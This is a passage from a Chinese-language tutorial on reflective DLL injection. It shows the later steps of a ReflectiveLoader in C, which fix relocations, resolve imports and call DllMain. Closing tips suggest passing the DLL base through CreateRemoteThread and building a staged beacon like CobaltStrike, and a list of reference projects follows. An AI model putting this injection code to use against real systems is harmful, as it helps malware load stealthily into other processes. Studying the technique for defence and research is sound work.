                    *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += (DWORD)baseOffset;
                else if (relocList->type == IMAGE_REL_BASED_HIGH)
                    *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += HIWORD(baseOffset);
                else if (relocList->type == IMAGE_REL_BASED_LOW)
                    *(PULONG_PTR)(BaseAddress + relocation->VirtualAddress + relocList->offset) += LOWORD(baseOffset);

                // 移动到下一个重定位条目
                relocList++;
            }
            // 移动到下一个重定位块（当前块末尾作为新块起始）
            relocation = (PIMAGE_BASE_RELOCATION)relocList;
        }
    }


    /*---------------------第五步：修复导入表---------------------*/
    PIMAGE_IMPORT_DESCRIPTOR pImport = (PIMAGE_IMPORT_DESCRIPTOR)(pNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress + BaseAddress);
    //这个是IID的指针
    if (pImport != NULL)
    {
        while (pImport->Name != NULL)
        {
            char DLLname[100] = { 0 }; // 定义一个存储 DLL 名称的缓冲区
            char* uiLibraryAddressName = (char*)(pImport->Name + BaseAddress); // 获取 DLL 名称的地址

            // 手动将名称拷贝到 DLLname 缓冲区
            for (int i = 0; i < sizeof(DLLname) - 1; i++)
            {
                if (uiLibraryAddressName[i] == '\0') // 遇到字符串结束符时停止
                    break;
                DLLname[i] = uiLibraryAddressName[i]; // 拷贝字符
            }
            DLLname[sizeof(DLLname) - 1] = '\0'; // 确保缓冲区以 '\0' 结尾

            //通过名称找句柄
            HMODULE hProcess = pLoadLibraryA(DLLname);               
            if (!hProcess)
            {
                return FALSE;
            }

            PIMAGE_THUNK_DATA64 pINT = (PIMAGE_THUNK_DATA64)(pImport->OriginalFirstThunk + BaseAddress);// 导入名称表
            PIMAGE_THUNK_DATA64 pIAT = (PIMAGE_THUNK_DATA64)(pImport->FirstThunk + BaseAddress); // 导入地址表
            while ((ULONG_PTR)(pINT->u1.AddressOfData) != NULL)
            {
                //根据IAT中存放信息，我们可以选择序号导入还是名称导入               
                if (pINT->u1.AddressOfData & IMAGE_ORDINAL_FLAG32)//判断如果是序号就是第一种处理方式
                {
                    //通过序号来获取地址
                    pIAT->u1.AddressOfData = (ULONG_PTR)(pGetProcAddress(hProcess, (LPCSTR)(pINT->u1.AddressOfData)));
                }
                else
                {
                    //通过函数名来获取地址
                    PIMAGE_IMPORT_BY_NAME pFucname = (PIMAGE_IMPORT_BY_NAME)(pINT->u1.AddressOfData + BaseAddress);
                    pIAT->u1.AddressOfData = (ULONG_PTR)(pGetProcAddress(hProcess, pFucname->Name));             
                }
                pINT++;
                pIAT++;
            }
            pImport++;
        }
    }

    /*---------------------第六步：获取dllmain的地址，执行dllmain---------------------*/

    // 获取映射后的DLL的NT头
    PIMAGE_NT_HEADERS pNT = (PIMAGE_NT_HEADERS)(BaseAddress + pDOSheader->e_lfanew);

    // 获取DLL的入口点，一般为DllMain
    FARPROC dllentry = (FARPROC)((LPBYTE)BaseAddress + pNT->OptionalHeader.AddressOfEntryPoint);
    
    // 执行DllMain函数
    dllentry();
    return TRUE;
}

```

测试



# 五、尾语

在末尾在说几句话吧

1. 在`Inject`中你是可以先扩展到节区表，然后找到 `ReflectiveLoader` 的地址，再创建线程去调用它，与上文提到的思路大差不差，这样做的好处就是不用再从RVA转到文件偏移了
2. `CreateRemoteThread` 是可以向被创建的线程传递一个参数的，如果不想在 `ReflectiveLoader` 中实现暴力搜索DLL的基址的话，可以向 `ReflectiveLoader` 传递DLL的基址
3. 如果想实现类似CobaltStrike的有阶段beacon，你可以参考 [oldboy21/RflDllOb： 反射式 DLL 注入制作 Bella](https://github.com/oldboy21/RflDllOb?tab=readme-ov-file) 这个项目去修改 `Inject` 和 `ReflectiveLoader`，做到类型下图所示的功能



# 参考资料

1. 最知名的Reflective DLL Injection项目，也算是技术起源了： [GitHub - stephenfewer/ReflectiveDLLInjection：反射式DLL注入是一种库注入技术，其中采用反射式编程的概念来执行将库从内存加载到主机进程中。](https://github.com/stephenfewer/ReflectiveDLLInjection)
2. [oldboy21/RflDllOb： 反射式 DLL 注入制作 Bella (github.com)](https://github.com/oldboy21/RflDllOb?tab=readme-ov-file)
3. [GitHub - rapid7/ReflectiveDLLInjection at 6bad4c49327ad3b7d9cce6e280d034b76dbec928](https://github.com/rapid7/ReflectiveDLLInjection/tree/6bad4c49327ad3b7d9cce6e280d034b76dbec928)
4. [深入理解反射式dll注入技术 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/325873.html)
5. [反射DLL注入原理解析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/14639?time__1311=GqAhYK0IED%2FD7850%3DDODcCsGCzHMvmD)
6. [Windows Shellcode 注入姿势 | MYZXCG](https://myzxcg.com/2022/01/Windows-Shellcode-%E6%B3%A8%E5%85%A5%E5%A7%BF%E5%8A%BF/#dosheader-%E4%BF%AE%E6%94%B9)
7. [圣诞节我想要的只是反光 DLL 注射 ：： Vincenzo — 博客](https://oldboy21.github.io/posts/2023/12/all-i-want-for-christmas-is-reflective-dll-injection/)
8. [GitHub - dismantl/ImprovedReflectiveDLLInjection: An improvement of the original reflective DLL injection technique by Stephen Fewer of Harmony Security](https://github.com/dismantl/ImprovedReflectiveDLLInjection)
